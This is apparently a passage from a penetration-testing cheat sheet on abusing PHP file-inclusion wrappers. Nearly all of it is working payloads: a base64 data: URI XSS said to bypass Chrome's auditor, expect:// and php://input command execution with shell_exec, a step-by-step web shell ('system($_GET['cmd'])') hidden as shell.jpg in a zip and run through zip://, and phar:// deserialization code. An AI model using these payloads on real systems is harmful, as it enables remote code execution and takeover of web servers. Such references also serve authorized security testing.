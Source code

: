 Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

###### Wrapper expect://

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

###### Wrapper input://

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

###### Wrapper zip://

1. Create an evil payload: `echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;`
2. Zip the file

```python
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php
```

3. Upload the archive and access the file using the wrappers: [http://example.com/index.php?page=zip://shell.jpg%23payload.php](http://example.com/index.php?page=zip://shell.jpg%23payload.php)

###### Wrapper phar://

Create a phar file with a serialized object in its meta-data.

```
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```

If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method __destruct() or __wakeup() defined, then those methods are automatically invoked

```
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```
